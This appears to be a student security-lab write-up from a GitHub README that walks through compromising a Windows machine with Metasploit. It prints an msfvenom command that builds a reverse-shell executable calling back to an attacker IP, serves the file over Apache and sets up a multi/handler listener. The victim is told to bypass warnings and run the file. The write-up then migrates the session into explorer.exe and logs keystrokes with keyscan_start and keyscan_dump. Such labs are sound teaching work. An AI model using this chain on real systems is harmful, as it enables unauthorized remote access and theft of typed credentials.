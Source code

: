 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-11 133658](https://github.com/user-attachments/assets/658da2f4-775c-4409-b48a-345d2ac28cf3)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-11 135227](https://github.com/user-attachments/assets/13af2382-dec9-4672-b901-dd5ef17480b7)






copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-11 134135](https://github.com/user-attachments/assets/97e189af-4c19-4ada-9a93-3b1b0797b6bf)




Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-11 134145](https://github.com/user-attachments/assets/d3ac1c1c-4359-4ca4-bd95-63f773f05424)



Check the status of apache2
![Screenshot 2025-04-11 135741](https://github.com/user-attachments/assets/4f6a5ea6-6a30-4af7-a50b-f47eb5bd891a)




Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![432657290-ea384ca5-6c96-405e-9b45-b23f4e9fab41](https://github.com/user-attachments/assets/4b1dd1fc-a414-44ef-b3e6-a4dd8088dc8f)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 143456](https://github.com/user-attachments/assets/13891cfb-8376-4f44-9935-aca5faeb480b)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



keyscan_dump	Shows the keystrokes captured so far





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
